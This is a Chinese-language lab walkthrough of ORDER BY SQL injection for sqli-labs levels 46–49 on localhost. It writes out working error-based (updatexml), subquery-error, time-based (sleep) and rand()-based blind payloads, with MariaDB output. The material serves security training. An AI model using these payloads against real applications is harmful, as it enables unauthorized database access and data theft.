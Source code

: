 

##第46关
Order by 注入，基于报错，数字类型
http://127.0.0.1/sqli-labs/Less-46?sort=if(database()='security',(select 1 union select 2),1)
提示Subquery returns more than 1 row 则证明条件表达式正确 （前提是基于报错，存在类似mysql_error()函数）
http://127.0.0.1/sqli-labs/Less-46?sort=if(database()='security1',id,username) //这样的判断也可以，根据列的名称。
但如果使用数字就不行了，可以直接跟数字，但是不能跟运算得来的数字。如果是运算来的数字，则会默认按照排序

基于报错的payload
http://127.0.0.1/sqli-labs/Less-46?sort=1 and(updatexml(1,concat(0x7e,(select database())),0)) -- -

##第47关
比46关多个单撇，字符串类型，有报错函数
http://127.0.0.1/sqli-labs/Less-47?sort=1%27and if(database()='security',(select 1 union select 2),username) — -

基于报错
http://127.0.0.1/sqli-labs/Less-47?sort=1%27 and(updatexml(1,concat(0x7e,(select user())),0)) -- -

##第48关
盲注
order by 数字型盲注
在MYSQL的官方手册，里面针对RAND()的提示大概意思就是，在ORDER BY从句里面不能使用RAND()函数，因为这样会导致数据列被多次扫描

payload
http://127.0.0.1/sqli-labs/Less-48?sort=1,(select 1 from (select sleep(5))a)

另外的payload （适用于数字类型，在字符串类型不适用）
http://127.0.0.1/sqli-labs/Less-48?sort=rand(ascii(left(database(),1))=115)-- -
不太清楚小数的意义


MariaDB [security]> select rand(1=1);
+---------------------+
| rand(1=1)           |
+---------------------+
| 0.40540353712197724 |
+---------------------+
1 row in set (0.00 sec)

MariaDB [security]> select rand(1=2);
+---------------------+
| rand(1=2)           |
+---------------------+
| 0.15522042769493574 |
+---------------------+
1 row in set (0.00 sec)

相当于rand(true)  rand(false)

##第49关
字符串类型盲注入order by
存在报错函数就可以使用updatexml 或者select 1 union select 2 类 来报错判断
但可以使用基于时间的盲注（也就是延时注入），这样的结果排序也乱序，但确定条件正确与否。
http://127.0.0.1/sqli-labs/Less-49?sort=1%27 and if(database()='security',sleep(5),1) -- -
